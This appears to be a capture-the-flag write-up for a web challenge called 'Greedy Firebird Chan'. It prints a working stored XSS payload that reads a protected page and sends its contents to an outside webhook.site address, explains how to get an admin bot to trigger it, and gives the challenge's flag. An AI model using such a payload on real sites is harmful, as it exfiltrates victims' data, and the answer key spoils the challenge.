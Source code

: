 # Exercise 7-B Greedy Firebird Chan [100 points] (21 solves)
Payload: `<img src="x" onerror='fetch("http://chal.firebird.sh:35039/exercise_flag").then(r=>r.text()).then(b=>fetch("https://webhook.site/aeb984f9-36cc-4c19-9500-247279ca72f1?msg="+ encodeURIComponent(b)))'>`
Use the payload to update the profile, and send our profile url to admin. Then, webhook should receive the message in query_strings:
```text
<!DOCTYPE html> <html> <head> <meta charset="utf-8"> <meta name="viewport" content="width=device-width, initial-scale=1"> <title>Firebird Chan's CTF Flag Bank</title> <script src="https://cdn.tailwindcss.com"></script> </head> <body class="flex flex-col h-screen bg-zinc-800"> <h3 class="flex flex-col items-center justify-center text-center h-screen text-white bg-zinc-800"> <p class="my-4 text-xl font-semibold">The flag is in the image below, you can access the image link directly:</p> <img src="/static/images/323a3a990d939a2b1d1e5aba97a0b6fa.jpg"> </h3> </html>
```
`/static/images/323a3a990d939a2b1d1e5aba97a0b6fa.jpg` is where our flag located.

flag: `flag{f1R3b1rd_ch4n_h04rD5_boTh_flaG5_4nd_1mAg35}`